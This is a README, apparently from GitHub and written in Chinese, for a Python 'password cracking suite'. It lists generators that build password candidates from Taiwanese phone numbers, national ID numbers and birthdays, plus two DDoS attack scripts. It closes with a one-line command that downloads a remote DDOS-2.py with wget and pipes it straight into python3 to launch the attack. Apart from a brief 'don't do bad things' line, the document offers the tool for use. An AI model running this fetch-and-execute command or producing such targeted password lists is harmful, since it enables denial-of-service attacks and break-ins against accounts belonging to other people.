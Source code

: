 # 密碼破解套件
此腳本基於Python 使用前請先確定電腦上有安裝Python

## 必要套件
- webbrowser
- request
- socket

## 注意事項
- 請先安裝Python
- 請不要拿去幹壞事
- 此腳本非常吃電腦資源
- 有bug請開issues通知
- 希望增加功能也請在issues建議

## 已完成功能(密碼生成器)
- 台灣手機電話號碼(09xxxxxxxx) 
- 台灣"無區碼"市話號碼(xxxx-xxxx) 
- 台灣"含區碼"市話號碼((xx)xxxx-xxxx)
- 台灣國際號碼(886xxxxxxxxx) 
- 台灣身份證字號(Xxxxxxxxxx)
- 亂數(123....) 
- 民國生日(xx.xx.xx) 
- 西元生日(xxxx.xx.xx) 

## 已完成功能(攻擊)
- 以下兩個版本的攻擊原理不一樣
- DDOS攻擊第一版(By:Andysun06)
- DDOS攻擊第二版(By:ChengChinHsia)

## 親自部署攻擊
```js
wget -qO-  https://raw.githubusercontent.com/ChengChinHsia-Pig/pwd-gen/main/attacks/DDOS-2.py | python3 -
```
> Last Update:2022/09/11
